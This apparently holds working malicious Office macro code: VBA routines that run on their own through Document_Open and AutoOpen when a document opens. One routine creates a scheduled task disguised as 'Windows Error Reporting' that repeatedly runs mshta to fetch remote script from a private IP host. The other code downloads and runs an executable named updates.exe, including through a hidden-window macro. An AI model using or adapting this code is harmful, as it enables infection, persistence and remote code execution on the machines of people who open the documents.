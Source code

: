 Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://192.168.66.59/microsoftftp.jpg').Exec();close();"" /mo 2 /F")
End Sub


powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.66.59/updates.exe',
'C:\Users\Public\updates.exe');& 'C:\Users\Public\updates.exe'


Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.243.131/updates.exe', 'C:\Users\Public\updates.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = "C:\Users\Public\updates.exe"
  Wait (5)
  Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
  DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
